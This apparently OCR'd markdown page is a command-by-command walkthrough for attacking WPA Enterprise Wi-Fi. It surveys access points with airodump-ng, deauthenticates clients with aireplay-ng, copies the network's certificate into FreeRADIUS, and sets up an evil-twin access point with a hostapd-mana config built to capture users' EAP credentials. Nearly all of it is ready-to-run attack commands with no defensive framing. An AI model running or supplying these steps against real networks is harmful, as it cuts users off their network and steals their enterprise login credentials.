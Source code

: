 ## **Attacking WPA Enterprise**

Discover and monitor all nearby access points

```bash
sudo airodump-ng --band abg wlan0mon
sudo airodump-ng --band abg wlan0mon -c <$x> --bssid <$BSSID> -w <#pcap_file_name>
```

To do deauth attack to capture handshake

```bash
sudo iwconfig wlan0mon channel <$x>
sudo aireplay-ng wlan0mon -0 4 -a <$BSSID> -c <$client_mac>
```

once captured handshake and we have extract about certificate information

```bash
wireshark <#pcap_file_name>
openssl x509 -inform der -in CERTIFICATE_FILENAME -text
```

Replace the certificate information in the freeradius certificate and make certificate

```bash
sudo apt install freeradius
nano /etc/freeradius/3.0/certs/ca.conf
nano /etc/freeradius/3.0/certs/server.conf
rm dh
make
```

Create new config file ‘mana.conf’ to create new Rough AP using hostapd-mana 

```
ssid=<$BSSID>
interface=<$INTERFACE>
driver=nl80211
channel=1
hw_mode=g
ieee8021x=1
eap_server=1
eapol_key_index_workaround=0
eap_user_file=/root/wifi/mana.eap_user
ca_cert=/etc/freeradius/3.0/certs/ca.pem
server_cert=/etc/freeradius/3.0/certs/server.pem
private_key=/etc/freeradius/3.0/certs/server.key
private_key_passwd=whatever
dh_file=/etc/freeradius/3.0/certs/dh
auth_algs=1
wpa=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=CCMP TKIP
mana_wpe=1
mana_credout=/tmp/hostapd.credout
mana_eapsuccess=1
mana_eaptls=1
```
